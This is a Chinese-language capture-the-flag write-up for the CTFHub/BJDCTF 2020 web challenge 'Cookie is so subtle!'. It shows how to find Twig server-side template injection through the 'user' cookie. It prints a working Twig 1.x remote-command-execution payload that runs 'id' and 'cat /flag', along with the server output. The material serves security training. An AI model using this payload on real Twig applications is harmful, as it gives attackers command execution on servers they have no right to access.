



### 题目名称：Cookie is so subtle!

题目来源：CTFHub（原题：2020-BJDCTF-Web-Cookie is so subtle!）

题目类别：Web

题目描述：



打开是一个 BJDCTF 2020 的站点，导航栏有 Flag 和 Hint 两个页面。

- index.php 是欢迎页
- hint.php 是提示页，源码里有一句注释
- flag.php 是一个表单，提示 Tell me, Who are you?，输入框名叫 username

### 解题思路

在 flag.php 里随便输一个名字提交，页面会跳到 Hello 你输入的名字，同时响应头里多了一个 cookie，名字叫 user，值就是刚才输的内容。说明页面是拿 cookie 里的 user 去渲染的。

先试了直接在表单里输 {{7*7}}，页面不计算，还是原样显示，因为前端或后端把它当普通字符串了。改成在控制台或者抓包工具里改 cookie，把 user 的值换成 {{7*7}}，页面回显 Hello 49，说明存在服务端模板注入。

再输 {{7*'7'}}，回显还是 49，而 Jinja2 会返回 7777777，所以确认是 Twig 模板。Twig 1.x 有 _self 这个全局变量，能拿到 env 对象，再通过 registerUndefinedFilterCallback 把 exec 注册成过滤器，然后用 getFilter 执行命令。

### 详细步骤

1. 打开首页

2. 点 Flag 进入 flag.php，是一个输入用户名的表单

3. 先随便提交一个名字，看响应头

    ```
    Set-Cookie: PHPSESSID=xxxx; path=/, user=aaa; expires=...
    ```

    再访问时页面显示 Hello aaa，说明是 cookie 里的 user 在起作用

    

4. 看 hint.php 的源码，有一句注释

    

    ```html
    <!-- Why not take a closer look at cookies? -->
    ```

    确认考点在 cookie

5. 直接在表单里提交 {{7*7}} 没有反应，改成在控制台改 cookie

    ```javascript
    document.cookie = 'user={{7*7}}';
    location.reload();
    ```

    页面回显 Hello 49，确认存在 SSTI

6. 判断模板引擎，输 {{7*'7'}}

    ```
    user={{7*'7'}}
    ```

    回显还是 49。Twig 返回 49，Jinja2 会返回 7777777，所以是 Twig

7. 用 Twig 的 RCE payload 先执行 id 验证

    ```
    {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
    ```

    页面回显 Hello uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)，命令执行成功

8. 把命令换成 cat /flag

    ```
    {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
    ```

    页面回显 Hello ctfhub{ad6a670ffcbf28152f0cf504}，获得flag

### Payload

```
Cookie: PHPSESSID=<有效的session>; user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

### flag

ctfhub{ad6a670ffcbf28152f0cf504}

### 总结&反思
